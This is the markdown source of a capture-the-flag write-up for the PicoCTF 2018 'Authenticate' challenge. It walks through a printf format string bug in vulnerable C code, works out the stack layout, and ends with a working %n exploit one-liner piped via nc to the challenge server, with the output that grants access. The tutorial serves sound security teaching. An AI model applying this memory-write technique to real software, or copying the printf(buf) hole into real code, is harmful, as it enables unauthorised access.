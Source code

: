 ```yaml
---
title:  PicoCTF 2018 - Authenticate
description: Did you think printf was just for printing values? Naw, it can do more than that.
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Authenticate

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}).

## Spot the Bug

I'll give you a hint, you *should* be able to spot the bug based on the [last challenge]({% link _reference/hacking-101/picoctf-2018-binary-exploits/echooo.md %}).

```c
int authenticated = 0;

void read_flag()
{
  if (!authenticated) {
    printf("Sorry, you are not *authenticated*!\n");
  } else {
    printf("Access Granted.\n");
    flag();
  }
}

int main(int argc, char **argv)
{
  // ...
  char buf[64];
  // ...
  fgets(buf, sizeof(buf), stdin);
  if (strstr(buf, "no") != NULL) {
    printf("Okay, Exiting...\n");
    exit(1);
  }
  else if (strstr(buf, "yes") == NULL) {
    puts("Received Unknown Input:\n");
    printf(buf);
  }
  read_flag();
```

Let's break it down:

1. There is a global variable `authenticated`, initialized to false, but must be set to true in order to get the flag
2. `buf` is allocated on the stack (but is used safely buy the function `fgets`)
3. If the response contains "no", the program immediately exits
4. If the response contains "yes", the program calls `read_flag()` (which validates the `authenticated` variable)
5. If the response contains neither "no" nor "yes", the program calls `printf(buf)` to echo the response back to the user. For some reason, it still calls `read_flag()`.

Soo... Where's the bug?

If you said `printf(buf)`, then you're exactly right! Good job.

## Strategy

Our strategy has to be a little different this time around. When `printf` is called, the flag isn't even loaded into memory yet!

But, we do know that `buf` is on the stack, so we can probably reference stuff in that.

And we also know that `read_flag()` will still get called, so we just need some way to change the value of `authenticated`.

We even know exactly where `authenticated` is in memory because we can verify that **PIE is not enabled** for this binary. (*Do you remember how to check*?)

**The strategy is to find some way for a format string vulnerability to write to known location in memory**.

## Background Info

It's silly really. How could a function designed for *printing stuff to the screen* allow you to write to memory?

Maybe you're a c programming language veteran and have an idea... If so, connect to the challenge uisng `nc 2018shell.picoctf.com 52398` and give it a go, otherwise, listen up.

If you browse the documentation for format strings, you come across this curious type field for "`%n`":

| Character | Description |
| --- | --- |
| n | Print nothing, but write the number of characters successfully written so far into an integer pointer parameter. |

Which is very interesting. It says that instead of printing something to the screen when it sees a "`%n`" token, it'll actually treat the corresponding argument as an `int*` and **WRITE A NUMBER THERE**. Essentially, if you make your output long enough, you can write any `int` value to any location in memory (assuming you can control the `int*` argument).

Ok, first things first, where is `authenticated` in memory?

```
$ objdump -t ./auth | grep authenticated
0804a04c g     O .bss   00000004              authenticated
```
{:.contains-term}

What about the content of `buf`? It's on the stack, but where is it relative to the pointer to the format string passed as an argument to `printf`?

```nasm
mov    ebp,esp
push   ecx ; esp -= 4
sub    esp,0x64 ; esp -= 0x64
; ...
; printf(buf)
sub    esp,0xc
lea    eax,[ebp-0x4c] ; &buf
push   eax
call   80484b0 <printf@plt>
```

So, we know there are `0x68` bytes reserved on the stack. We know that `buf[64]` starts at `ebp-0x4c`. We know that we push the format string argument (a `4` byte ptr) followed by `12` bytes of padding, followed by rest of the baseline stack reserved by the function.

| Start | End | Content |
| --- | --- | --- |
| `esp` | `esp+3` | `&buf` [4 bytes] (*format string*) |
| `esp+4` | `esp+15`| alignment padding [12 bytes]
| `esp+16` = baseline = `ebp-0x68`| `esp+31` = `ebp-0x4d` | other [28 bytes]|
| `ebp-0x4c` | `ebp-0x0d`| `buf[64]` |

Therefore, there are `12+28 = 40` bytes of stuff between the format-string argument and the start of `buf[]`.

First, let's check our math, what should happen if we enter a format string of "`ABCD %11$#lX`"?

If you recall from [echooo]({% link _reference/hacking-101/picoctf-2018-binary-exploits/echooo.md %}), this format string is a POSIX extension that says treat all of the arguments as if they were "`%#lX`" ie, a long sized integer, and then print *ONLY* the 11th one as a hexadecimal value (prepended with "0x"). The gcc compiler on x86 linux platforms treats `long` integers as 32 bit. The ascii values for `A`,`B`,`C`, and `D` are `0x41`, `0x42`, `0x43` and `0x44` respectively. A 32-bit little-endian integer would store its value with the least significant byte first, and its most significant byte last. The string "ABCD" would therefore be equivalent to the in-memory representation of the 32-bit integer `0x44434241`, which is what we expect that format-string to print out. **Let's verify!**

```
$ ./auth
Would you like to read the flag? (yes/no)
ABCD %11$#lX
Received Unknown Input:

ABCD 0x44434241
Sorry, you are not *authenticated*!
```
{:.contains-term}

Excellent, memory is layed out *exactly* as we expect it to be!

You should now have all the pieces you need to craft your exploit. Try it now by connecting with  `nc 2018shell.picoctf.com 52398`.

## Exploitation

We know `authenticated` is at the address `0x0804a04c`, we know we can use "`%n`" to write to an address, and we know that the first byte of `buf[]` starts `40` bytes after the format-string argument (where `40` bytes is equivalent to `10` pointers).

Let's write a non-zero value into `authenticated` by putting the address `0x0804a04c` (written in little-endian form) into the first 4 bytes of `buf`, and then use the format string "`%11$n`" which will index into the stack the equivalent of 10 `int*` pointers (`40` bytes), grab the 11th one, and then set the value of memory pointed to by that pointer to be equal to the number of bytes printed so far (in this case 4). Since `authenticated=4` is "truthy", `read_flag()` will call `flag()`, which will then open the flag file and print its contents.

```
$ python -c 'print("\x4c\xa0\x04\x08%11$n")' | nc 2018shell.picoctf.com 52398
Would you like to read the flag? (yes/no)
Received Unknown Input:

L�
Access Granted.
picoCTF{===REDACTED===}
```
{:.contains-term}

Good job! Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}) to continue with the next challenge.